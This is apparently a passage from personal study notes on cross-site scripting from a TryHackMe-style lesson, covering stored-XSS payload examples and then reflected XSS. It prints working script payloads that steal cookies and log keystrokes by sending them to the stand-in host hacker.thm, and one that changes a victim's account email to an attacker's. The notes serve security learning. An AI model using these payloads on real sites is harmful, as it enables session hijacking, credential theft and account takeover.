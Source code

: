 `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

  

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

  

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

  

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  

`<script>user.changeEmail('attacker@hacker.thm');</script>`

  

Now that the email address for the account has changed, the attacker may perform a reset password attack.

## Reflected XSS
**Reflected XSS**  

  

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

  
**Example Scenario:**  
  
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.
![[Pasted image 20240724190718.png]]
![[Pasted image 20240724190725.png]]
The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.
![[Pasted image 20240724190734.png]]
![[Pasted image 20240724190735.png]]
The vulnerability can be used as per the scenario in the image below:
![[Pasted image 20240724190743.png]]**Potential Impact:**  
  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
